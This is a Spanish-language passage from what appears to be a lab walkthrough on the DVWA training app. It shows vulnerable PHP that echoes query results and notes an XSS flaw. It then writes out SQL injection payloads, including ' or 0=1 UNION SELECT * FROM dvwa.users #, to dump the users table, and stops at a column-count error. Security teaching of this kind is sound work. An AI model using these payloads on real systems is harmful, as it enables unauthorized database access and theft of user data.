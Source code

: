 ```php
    while ($i < $num) {

        $first = mysql_result($result,$i,"first_name");
        $last = mysql_result($result,$i,"last_name");
        
        echo '<pre>';
        echo 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
        echo '</pre>';

        $i++;
    }
}
?>
```

Igual que antes, vemos que sería posible un ataque `XSS` dado que el parámetro `id` se muestra directamente en la página sin ningún tipo de comprobación, pero lo que nos interesa a nosotros ahora mismo es que en la consulta SQL, dicho parámetro se añade en crudo, por lo que podríamos escribir aquello que más nos convenga.

Primero comprobaremos la existencia del error introduciendo una comilla simple `'`. El mensaje que recibimos es el siguiente:

        You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

Como podemos observar, la página nos devuelve un error (que viene dado por la línea de código `or die('<pre>' . mysql_error() . '</pre>' );`).

En cambio, si introducimos números, podemos comprobar la existencia de todos los usuarios:

        ID: 1
        First name: admin
        Surname: admin

Para evitar que se ejecute la primera parte de la sentencia, usaremos el truco: 

```sql
' or 0=1
```

Con esto conseguimos que siempre sea falso y nunca nos muestre dicha sentencia programada por defecto.

Ahora necesitamos **unir** la secuencia que deseemos. En mi caso, accederé a la tabla `dvwa.users` que contiene toda la información sobre los usuarios:

```sql
' or 0=1 UNION SELECT * FROM dvwa.users #
```

> Con el último símbolo (`#`) nos aseguramos de que cualquier cosa que siga a la sentencia es un comentario.

En cambio, al ejecutar esta sentencia nos aparece un error:

        The used SELECT statements have a different number of columns
